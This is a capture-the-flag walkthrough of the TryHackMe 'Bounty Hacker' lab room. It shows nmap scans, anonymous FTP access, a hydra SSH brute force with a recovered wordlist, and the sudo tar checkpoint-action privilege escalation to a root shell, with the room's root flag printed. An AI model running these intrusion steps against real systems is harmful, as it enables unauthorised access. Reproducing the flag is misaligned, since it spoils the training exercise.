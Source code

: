 Hi, here is how to successfully complete the machine https://tryhackme.com/r/room/cowboyhacker

As usual, I start by scanning the target machine with nmap, we see 3 open ports
<pre><code>> sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.31.37 | 
tee nmap1.txt
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2024-10-02 07:15 -03
Initiating SYN Stealth Scan at 07:15
Scanning 10.10.31.37 [65535 ports]
Discovered open port 80/tcp on 10.10.31.37
Discovered open port 21/tcp on 10.10.31.37
Discovered open port 22/tcp on 10.10.31.37
Completed SYN Stealth Scan at 07:15, 28.42s elapsed (65535 total ports)
Nmap scan report for 10.10.31.37
Host is up, received user-set (0.72s latency).
Scanned at 2024-10-02 07:15:24 -03 for 29s
Not shown: 63851 filtered tcp ports (no-response), 1681 closed tcp ports (reset)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 63
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 28.52 seconds
           Raw packets sent: 130257 (5.731MB) | Rcvd: 1700 (68.128KB)</code></pre>


now that I know the open ports I will perform a better scan on those ports

port 21 (FTP) is open and allows anonymous login, suggesting that you can connect to the FTP server without the need for credentials
<pre><code>> sudo nmap -p21,22,80 -sCV -Pn 10.10.31.37 | tee nmap2.txt
Starting Nmap 7.95 ( https://nmap.org ) at 2024-10-02 07:17 -03
Nmap scan report for 10.10.31.37
Host is up (0.30s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.1.92
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.30 seconds</code></pre>

we are going to connect via ftp putting “anonymous” in “name”.
<pre><code>> ftp -v 10.10.59.203
Connected to 10.10.59.203.
220 (vsFTPd 3.0.3)
Name (10.10.59.203:maxi): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> </code></pre>

if we run ls we can see the following two files, I downloaded them using the command get
<pre><code>ftp> get locks.txt
ftp> get task.txt</code></pre>

if we read the content of task.txt we can see the following text signed by “lin”

the locks.txt file is a dictionary of passwords, we can use it to try to brute force ssh and log in. 
<pre><code>~> cat task.txt
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin</code></pre>

an attempt to perform a brute force attack to access an SSH server on 10.10.59.203 with the user lin and a list of passwords contained in locks.txt
<pre><code>~> hydra -l lin -P locks.txt 10.10.59.203 ssh
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-10-02 11:11:23
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.59.203:22/
[22][ssh] host: 10.10.59.203   login: lin   password: ???
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-10-02 11:11:30</code></pre>

luckly the dictionary contained the password and we were able to access it through the user lin.
<pre><code>> ssh lin@10.10.59.203
The authenticity of host '10.10.59.203 (10.10.59.203)' can't be established.
ED25519 key fingerprint is SHA256:Y140oz+ukdhfyG8/c5KvqKdvm+Kl+gLSvokSys7SgPU.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:25: 10.10.31.37
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.59.203' (ED25519) to the list of known hosts.
lin@10.10.59.203's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$ </code></pre>

the user flag.
<pre><code>lin@bountyhacker:~/Desktop$ ls
user.txt
lin@bountyhacker:~/Desktop$ cat user.txt
THM{?????????????}</code></pre>

The result of the sudo -l command shows that the user lin has special privileges that allow him to execute the /bin/tar command as root without providing a password. This is an important hint for privilege escalation.
<pre><code>lin@bountyhacker:~$ sudo -l
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar</code></pre>

after trying many things with /bin/tar this was the one that finally worked for me

![2024-10-02_11-45](https://github.com/user-attachments/assets/c43f8302-fc52-460a-aefb-5b12f7081fe3)

I searched GTFobins /bin/tar and it gave me this way to escalate privileges by exploiting my access to /bin/tar

<pre><code>$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# whoami
root</code></pre>

<pre><code># cat root.txt
THM{80UN7Y_h4cK3r}</code></pre>
